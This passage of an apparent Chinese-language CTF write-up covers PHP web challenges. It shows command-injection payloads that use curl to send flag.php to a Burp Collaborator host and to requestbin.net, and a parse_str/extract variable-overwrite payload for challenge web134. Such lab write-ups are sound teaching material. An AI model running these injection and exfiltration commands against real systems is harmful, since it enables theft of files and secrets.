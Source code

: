 [![r0wlw9.md.png](https://s3.ax1x.com/2020/12/21/r0wlw9.md.png)](https://imgchr.com/i/r0wlw9)



执行payload

```php
?F=`$F `;curl -X POST -F xx=@flag.php  http://rrm5fjnnoqnekm19gqkc8q8dl4rvfk.burpcollaborator.net
```

之后就会在burp上收到 flag.php的内容，

其他方法：

利用网站 http://requestbin.net

```php
?F=`$F `;curl  http://requestbin.net/r/1g8bsc01?p=`cat flag.php|grep flag`
```

[![r0B4Gq.md.png](https://s3.ax1x.com/2020/12/21/r0B4Gq.md.png)](https://imgchr.com/i/r0B4Gq)





参照：

https://blog.csdn.net/qq_46091464/article/details/109095382

## web134~POST数组的覆盖

```php
<?php

highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
} 
```

* parse_str() 函数把查询字符串解析到变量中。
* extract() 函数从数组中将变量导入到当前的符号表。

[![r0fVH0.md.png](https://s3.ax1x.com/2020/12/21/r0fVH0.md.png)](https://imgchr.com/i/r0fVH0)

**POST数组的覆盖**

可以看到以GET 传参`_POST[a]`相当于post传参 a 效果。

构造paylaod

```php
?_POST[key1]=36d&_POST[key2]=36d
```
